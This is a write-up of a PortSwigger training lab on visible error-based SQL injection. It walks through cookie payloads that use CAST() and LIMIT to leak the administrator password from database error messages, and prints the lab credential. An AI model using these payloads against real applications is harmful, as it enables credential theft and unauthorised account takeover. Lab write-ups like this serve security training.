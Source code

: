 # Visible error-based SQL injection

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based), you'll learn: Visible error-based SQL injection! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519201247.png)

**When we go to `/`, it sets a new cookie called `TrackingId`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519201315.png)

Now, since tracking ID is very likely to be parsed to a SQL query, we can try to do SQL injection.

**To do so, I'll first try to output an error via an invalid SQL syntax query:**
```sql
wInK1AsJQtbzlaFg'
```

**When we modify that, it outputs a very verbose error:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519201602.png)

Misconfiguration of the database sometimes results in verbose error messages. These can provide information that may be useful to an attacker, like the above error:

```sql
SELECT * FROM tracking WHERE id = 'wInK1AsJQtbzlaFg''
```

This shows the full query that the application constructed using our input. As a result, we can see the context that we're injecting into, that is, a single-quoted string inside a `WHERE` statement. This makes it easier to construct a valid query containing a malicious payload. In this case, we can see that commenting out the rest of the query would prevent the superfluous single-quote from breaking the syntax:

```sql
wInK1AsJQtbzlaFg' OR 1=1-- -
```

**However, when we send the above payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519201906.png)

It doesn't have any error. More importantly, it doesn't return any data to us.

That being said, we're dealing with a blind-based SQL injection.

Let's leverage **conditional errors** to test a single boolean condition and trigger a database error if the condition is true.

According to [PortSwigger's SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), we can try MySQL's conditional errors first:

```sql
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')

SELECT IF(1=1,(SELECT table_name FROM information_schema.tables),'a')
SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
```

**Payload:**
```sql
wInK1AsJQtbzlaFg' (SELECT IF(1=1,(SELECT table_name FROM information_schema.tables),'a'))-- -
wInK1AsJQtbzlaFg' (SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a'))-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519202633.png)

Wait a minute... **Why the verbose error message is truncated after `FROM inf`??**

Hmm... Maybe there's some character limits?

Luckly, **we can solve that truncated problem!**

Occasionally, you may be able to induce the application to generate an error message that contains some of the data that is returned by the query. This effectively turns an otherwise blind SQL injection vulnerability into a "visible" one.

One way of achieving this is to use the **`CAST()`** function, which enables you to convert one data type to another. For example, consider a query containing the following statement:

```sql
CAST((SELECT example_column FROM example_table) AS int)
```

Often, the data that you're trying to read is a string. Attempting to convert this to an incompatible data type, such as an `int`, may cause an error similar to the following:

```
ERROR: invalid input syntax for type integer: "Example data"
```

Let's do this!

**Since the lab's description says there's a table called `users`, with columns called `username` and `password`, we can try to select `username` column from `users` table.**

**But before we do that, I wanna try the `id` column in `tracking` table first, just to confirm it'll work:**
```sql
' OR CAST((SELECT id) AS int) = 1-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519205645.png)

It worked!

**Let's try again but with table `users`, columns `username` and `password`:**
```sql
' OR CAST((SELECT username FROM users) AS int) = 1-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519205912.png)

Uhh... "more than one row returned by a subquery used as an expression"?

**Don't worry, we can use the `LIMIT` clause to only show 1 record:**
```sql
' OR CAST((SELECT username FROM users LIMIT 1) AS int) = 1-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519205959.png)

**Nice!! How about `administrator`'s password?**
```sql
' OR CAST((SELECT password FROM users LIMIT 1) AS int) = 1-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519210027.png)

Let's go!!

- Administrator credentials: `administrator:113a9wnxvmaq9b3h2uf2`

**We can now login as `administrator` :D**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519210222.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519210230.png)

I'm `administrator`!

## What we've learned:

1. Blind SQL injection with conditional errors